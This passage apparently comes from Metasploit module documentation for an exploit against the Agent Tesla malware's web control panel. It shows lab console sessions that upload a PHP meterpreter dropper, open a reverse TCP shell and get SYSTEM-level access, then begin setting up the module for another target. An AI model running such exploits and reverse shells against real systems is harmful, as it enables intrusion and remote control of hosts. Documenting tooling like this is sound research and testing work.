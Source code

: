 ```
   Id  Name
   --  ----
   0   Automatic (PHP-Dropper)


msf5 exploit(multi/http/agent_tesla_panel_rce) > exploit

[*] Started reverse TCP handler on 169.254.115.5:4444
[*] Targeted operating system is: windows
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Payload uploaded as: .UKtE.php to C:\wamp64\www\\WebPanel\\server_side\scripts\.UKtE.php
[*] Sending stage (38288 bytes) to 169.254.162.16
[*] Meterpreter session 1 opened (169.254.115.5:4444 -> 169.254.162.16:51698) at 2020-06-16 14:55:19 -0500
[+] Deleted C:\wamp64\www\\WebPanel\\server_side\scripts\.UKtE.php

meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 18:10:39 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 18:10:39 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 18:10:39 -0500  jsonp.php
100666/rw-rw-rw-  7959   fil   2016-09-21 18:10:40 -0500  mysql.sql
100666/rw-rw-rw-  1453   fil   2016-09-21 18:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 18:10:40 -0500  post.php
100666/rw-rw-rw-  7921   fil   2016-09-21 18:10:40 -0500  postgres.sql
100666/rw-rw-rw-  1642   fil   2018-09-11 17:31:16 -0500  server_processing.php
100666/rw-rw-rw-  7857   fil   2016-09-21 18:10:40 -0500  sqlite.sql
100666/rw-rw-rw-  8021   fil   2016-09-21 18:10:40 -0500  sqlserver.sql
100666/rw-rw-rw-  14438  fil   2016-09-30 04:53:10 -0500  ssp.class.php

meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > getuid
Server username: SYSTEM (0)
meterpreter >
```

### WebPanel3.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 7.3.12, Apache 2.4.41, MariaDB 10.4.10
```
msf5 > use exploit/multi/http/agent_tesla_panel_rce
msf5 exploit(multi/http/agent_tesla_panel_rce) > show optons
[-] Invalid parameter "optons", use "show -h" for more information
msf5 exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
```